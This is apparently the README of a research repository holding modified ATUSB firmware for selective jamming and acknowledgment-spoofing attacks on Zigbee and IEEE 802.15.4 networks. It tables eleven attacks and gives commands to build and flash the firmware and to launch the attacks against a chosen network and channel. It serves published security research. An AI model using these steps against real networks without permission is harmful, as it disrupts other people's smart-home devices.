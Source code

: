 # atusb-attacks

Modified ATUSB firmware that supports selective jamming and spoofing attacks


## Disclaimer

This repository contains implementations of proof-of-concept attacks against Zigbee networks and other IEEE 802.15.4-based networks, which are made available for benign research purposes only.
The users of these implementations are responsible for making sure that they are compliant with their local laws and that they have proper permission from the affected network owners.


## Implemented Attacks

| Attack ID | Attack Description                                                                                                                 | Required Macro |
| --------- | -----------------------------------------------------------------------------------------------------------------------------------| -------------- |
| 00        | Ignore RX\_START interrupts; equivalent to the original ATUSB firmware                                                             |                |
| 01        | Jam only Network Update commands                                                                                                   |                |
| 02        | Spoof a MAC acknowledgment for each 12-byte Data Request of a specified network                                                    | PANID          |
| 03        | Jam only packets of a specified network that request a MAC acknowledgment                                                          | PANID          |
| 04        | Jam only packets of a specified network that request a MAC acknowledgment and then spoof a MAC acknowledgment                      | PANID          |
| 05        | Jam only Rejoin Responses of a specified network                                                                                   | PANID          |
| 06        | Jam only Rejoin Responses and Network Update commands                                                                              |                |
| 07        | Jam only 28-byte beacons, whose EPID matches with the 32 least-significant bits of the specified EPID                              | EPID           |
| 08        | Jam only 28-byte beacons, whose EPID matches with the 32 least-significant bits of the specified EPID, and Network Update commands | EPID           |
| 09        | Jam only Rejoin Responses and Network Update commands with a MAC acknowledgment being spoofed for each jammed Rejoin Response      |                |
| 10        | Jam only Network Update commands and spoof a MAC acknowledgment for each 12-byte Data Request of a specified network               | PANID          |


## Instructions

* The following set of instructions was tested on [Debian 10.3](https://cdimage.debian.org/mirror/cdimage/archive/10.3.0/amd64/iso-cd/) with an [ATUSB](http://shop.sysmocom.de/products/atusb) and was compiled using information from the following sources:
  * <http://projects.qi-hardware.com/index.php/p/ben-wpan/source/tree/805db6ebf5d80692158acadf88e239da9d3e67af/atusb/fw/README>
  * <http://lists.en.qi-hardware.com/pipermail/discussion/2011-May/007993.html>
  * <http://lists.en.qi-hardware.com/pipermail/discussion/2011-May/007994.html>
  * <http://lists.en.qi-hardware.com/pipermail/discussion/2011-May/007995.html>
  * <http://lists.en.qi-hardware.com/pipermail/discussion/2011-May/007996.html>
  * <http://downloads.qi-hardware.com/people/werner/wpan/prod/flash.html>
  * <http://en.qi-hardware.com/wiki/Ben_WPAN>
  * <http://dfu-util.sourceforge.net/>
  * <http://wpan.cakelab.org/>
  * <https://github.com/linux-wpan/wpan-tools/wiki/Driver-Features>
  * <https://www.bastibl.net/reactive-zigbee-jamming/>

* Executing `$ lsusb`, after plugging the ATUSB into a Linux host machine, should display a message similar to the following:
```
Bus 001 Device 006: ID 20b7:1540 Qi Hardware ben-wpan, AT86RF230-based
```

* Install wpan-tools to configure the ATUSB from the host machine:
```
$ sudo apt update
$ sudo apt install wpan-tools
```

* Install Git to clone repositories:
```
$ sudo apt update
$ sudo apt install git
```

* Install an AVR toolchain to compile firmware images for the ATUSB:
```
$ sudo apt update
$ sudo apt install avr-libc gcc-avr binutils-avr
```

* Install version 0.7 of dfu-util to flash firmware images on the ATUSB:
```
$ sudo apt update
$ sudo apt-get build-dep dfu-util
$ sudo apt install libusb-1.0-0-dev
$ cd
$ git clone https://git.code.sf.net/p/dfu-util/dfu-util.git
$ cd dfu-util/
$ git checkout v0.7
$ ./autogen.sh
$ ./configure
$ make
$ sudo make install
```

* The source code of all the implemented attacks is included in the master branch of this repository, which can be retrieved as follows:
```
$ cd
$ git clone https://github.com/akestoridis/atusb-attacks.git
$ cd atusb-attacks/
$ cd fw/
```

* Execute the following commands to compile and flash the firmware image that launches the attack with ID 01, which will print a disclaimer and the user will have to accept responsibility for their actions if they want to proceed:
```
$ make clean
$ sudo make dfu ATTACKID=01
```

* After compiling and flashing the firmware image, executing the following command should display the configuration of the ATUSB as an IEEE 802.15.4 interface, including its phyname (e.g., `phy1`) and its devname (e.g., `wpan0`).
```
$ iwpan dev
```

* To launch the attack of the flashed firmware image, create a new interface (e.g., `attack0`) in monitor mode and enable it on the appropriate channel (e.g., channel 20 on page 0) with the following commands:
```
$ sudo iwpan dev wpan0 del
$ sudo iwpan phy phy1 interface add attack0 type monitor
$ sudo iwpan phy phy1 set channel 0 20
$ sudo ip link set attack0 up
```

* To stop the attack, disable the new interface as follows:
```
$ sudo ip link set attack0 down
```

* Alternatively, to compile and flash the firmware image that launches the attack with ID 05 against the network with PAN ID 0x99aa, execute the following commands:
```
$ make clean
$ sudo make dfu ATTACKID=05 PANID=0x99aa
```

* Similarly, to compile and flash the firmware image that launches the attack with ID 07 against the network with EPID 0xfacefeedbeefcafe, execute the following commands:
```
$ make clean
$ sudo make dfu ATTACKID=07 EPID=0xfacefeedbeefcafe
```

* To only compile the firmware image that launches the attack with ID 01, execute the following commands:
```
$ make clean
$ make ATTACKID=01
```

* The attack with ID 00 is equivalent to the original ATUSB firmware, which can be used to sniff IEEE 802.15.4 packets with the same sequence of commands as the other attacks and `tcpdump` to store them in a PCAP file.

* Whenever the user executes a compilation or flashing command, a disclaimer will be printed and they will have to accept responsibility for their actions in order to proceed.


## Publication

Some of these attacks were used in the following publication:

* D.-G. Akestoridis, M. Harishankar, M. Weber, and P. Tague, "Zigator: Analyzing the security of Zigbee-enabled smart homes," in _Proceedings of the 13th ACM Conference on Security and Privacy in Wireless and Mobile Networks (WiSec)_, 2020, pp. 77--88. DOI: [10.1145/3395351.3399363](https://doi.org/10.1145/3395351.3399363).


## License

Copyright 2007 S. Salewski\
Copyright 2008-2011, 2013-2015 Werner Almesberger\
Copyright 2015-2016 Stefan Schmidt\
Copyright 2017 Josef Filzmaier\
Copyright 2020 Dimitrios-Georgios Akestoridis

This repository includes modified source code from the [ben-wpan repository](http://projects.qi-hardware.com/index.php/p/ben-wpan/).
More specifically, the initial commit of this repository includes a copy of the [atusb/fw folder](http://projects.qi-hardware.com/index.php/p/ben-wpan/source/tree/805db6ebf5d80692158acadf88e239da9d3e67af/atusb/fw) from commit 805db6ebf5d80692158acadf88e239da9d3e67af of the ben-wpan repository.
The files of this repository are licensed under the [same terms](http://projects.qi-hardware.com/index.php/p/ben-wpan/source/tree/805db6ebf5d80692158acadf88e239da9d3e67af/COPYING) as the files of the ben-wpan repository.

